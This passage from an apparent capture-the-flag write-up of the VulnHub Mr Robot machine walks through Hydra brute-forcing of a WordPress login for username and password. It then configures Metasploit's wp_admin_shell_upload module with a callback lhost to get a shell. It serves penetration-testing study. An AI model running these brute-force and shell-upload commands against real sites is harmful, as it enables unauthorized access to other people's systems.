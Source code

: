 For this, I used the `fsocity.dic` wordlist I downloaded earlier and a tool called `Hydra` to automate the brute-forcing process.

Here’s the command I used:
```
┌──(kali㉿kali)-[~/vulnhub/mrRobot]
└─$ hydra -L fsocity.dic -p password 192.168.56.108 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

- `-L fsocity.dic`: Uses the downloaded dictionary file as a list of possible usernames.
- `-p password`: Specifies a password to test against each username.
- `http-post-form`: Indicates that we’re targeting a web form.

Hydra successfully identified a valid username: `Elliot`.

Next, I adjusted the command to brute-force the password:
```
hydra -l elliot -P fsocity.dic 192.168.56.108 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```

## Gaining Access with Metasploit
With valid WordPress credentials in hand, the next step is to use `Metasploit`, a penetration testing framework that simplifies exploiting vulnerabilities.

I started `Metasploit` with `msfconsole` and used a module specifically designed to exploit WordPress installations:
```
`msf6 > use exploit/unix/webapp/wp_admin_shell_upload`
```

I then configured the module with the following options:
```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 192.168.56.107
lhost => 192.168.56.107

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username Elliot
username => Elliot

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 192.168.56.108
rhost => 192.168.56.108

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password ER28-0652
password => ER28-0652

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set WPCHECK false
WPCHECK => false
```

These options specify the local host (`lhost`), which is my attacking machine’s IP address, the `username` and `password` that were discovered earlier, and the remote host (`rhost`), which is the target machine's IP address.

Once everything was set up, I executed the exploit by typing:
```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
```
